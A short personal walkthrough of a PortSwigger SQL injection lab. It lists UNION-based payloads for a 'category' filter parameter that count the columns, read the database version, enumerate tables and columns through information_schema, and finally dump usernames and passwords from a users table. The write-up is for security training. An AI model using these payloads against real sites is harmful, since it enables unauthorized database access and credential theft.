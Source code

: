 https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle


##### Enumerate the columns
`/filter?category=Lifestyle'union+select+null,null--`
##### Identify the RDBMS
`/filter?category=Lifestyle'union+select+null,version()--`
#### Enumerate the tables
```sql
'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
```
`table_name` isn’t a placeholder—it’s an actual column in the `information_schema.tables` table that stores the names of tables in the database.
#### Select USERS table
```sql
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+where+table_name='users_rtlina'--
```

```sql
SELECT some_column FROM some_table WHERE category = 'Lifestyle' 
UNION SELECT table_name, NULL FROM information_schema.tables;
```

![[Pasted image 20241110015657.png]]
And to use it simply use a select form:
```sql
'+UNION+SELECT+username_xamasr,password_uaugcn+FROM+users_rtlina--
```